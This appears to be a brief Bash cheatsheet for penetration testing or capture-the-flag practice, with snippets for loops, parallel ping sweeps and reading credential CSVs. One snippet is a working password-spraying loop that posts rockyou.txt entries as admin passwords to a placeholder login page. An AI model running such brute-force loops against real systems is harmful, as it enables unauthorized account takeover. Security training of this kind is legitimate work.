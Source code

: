# 🔁 Bash Automation Cheatsheet

## Brute-force Loops
```bash
for i in $(seq 1 100); do echo "Testing $i"; done
```

## Wordlist Sprayer
```bash
while read pass; do
  curl -s -d "username=admin&password=$pass" http://target/login | grep -q "Welcome" && echo "Valid password: $pass"
done < rockyou.txt
```

## Parallel Execution with xargs
```bash
cat ips.txt | xargs -P10 -I{} ping -c 1 {}
```

## Using IFS (Internal Field Separator)
```bash
while IFS=, read -r user pass; do
  echo "Username: $user | Password: $pass"
done < creds.csv
```